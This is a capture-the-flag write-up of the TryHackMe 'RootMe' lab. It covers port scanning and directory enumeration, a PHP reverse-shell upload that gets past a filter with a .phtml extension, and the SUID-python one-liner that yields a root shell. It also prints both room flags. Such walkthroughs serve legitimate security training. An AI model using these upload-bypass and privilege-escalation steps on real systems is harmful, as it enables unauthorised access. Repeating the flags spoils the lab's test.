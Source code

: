 ## RootMe

IP - 10.10.116.27

Port scan - 
```
Open ports - 
22
80
```
nmap -sV -sC 10.10.116.27
```

```
Since web server is running on port 80, browsing webpage and checking source code reveals nothing interesting.
Directoru enumeration - 
```
[00:18:12] 301 -  309B  - /js  ->  http://10.10.116.27/js/                 
[00:18:13] 403 -  277B  - /.ht_wsr.txt                                     
[00:18:13] 403 -  277B  - /.htaccess.bak1                                  
[00:18:13] 403 -  277B  - /.htaccess.sample
[00:18:13] 403 -  277B  - /.htaccess.orig
[00:18:13] 403 -  277B  - /.htaccess.save
[00:18:13] 403 -  277B  - /.htaccess_orig
[00:18:13] 403 -  277B  - /.htaccess_extra
[00:18:13] 403 -  277B  - /.htaccessBAK
[00:18:13] 403 -  277B  - /.htaccessOLD2
[00:18:13] 403 -  277B  - /.htaccessOLD
[00:18:13] 403 -  277B  - /.htaccess_sc
[00:18:13] 403 -  277B  - /.httr-oauth
[00:18:13] 403 -  277B  - /.htm                                            
[00:18:13] 403 -  277B  - /.htpasswds                                      
[00:18:13] 403 -  277B  - /.htpasswd_test
[00:18:13] 403 -  277B  - /.html                                           
[00:18:15] 403 -  277B  - /.php                                            
[00:18:42] 301 -  310B  - /css  ->  http://10.10.116.27/css/                
[00:18:50] 200 -  616B  - /index.php                                        
[00:18:50] 200 -  616B  - /index.php/login/                                 
[00:18:51] 200 -  958B  - /js/                                              
[00:18:59] 301 -  312B  - /panel  ->  http://10.10.116.27/panel/            
[00:18:59] 200 -  732B  - /panel/                                           
[00:19:06] 403 -  277B  - /server-status                                    
[00:19:06] 403 -  277B  - /server-status/                                   
[00:19:13] 200 -  743B  - /uploads/                                         
[00:19:13] 301 -  314B  - /uploads  ->  http://10.10.116.27/uploads/
```
2 interesting directories - panel, uploads

browsing over shows an upload page in /panel and directory exposure of uploads from /panel in /uploads directory

modified and uploaded a php reverse shell, but failed. some kind of checks are implemented...tried .phtml extension and it worked!

We land as www-data as usual...and browsin to web root in /var/www/ directory we find first flag
```
html  user.txt
bash-4.4$ cat user.txt
cat user.txt
THM{y0u_g0t_a_sh3ll}
```

Uploaded linpeas script to check any misconfigurations and voila! found that python is set as SUID

checking in gtfobins,
```
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
```
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root

```
We land as root!
```
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
PWNED!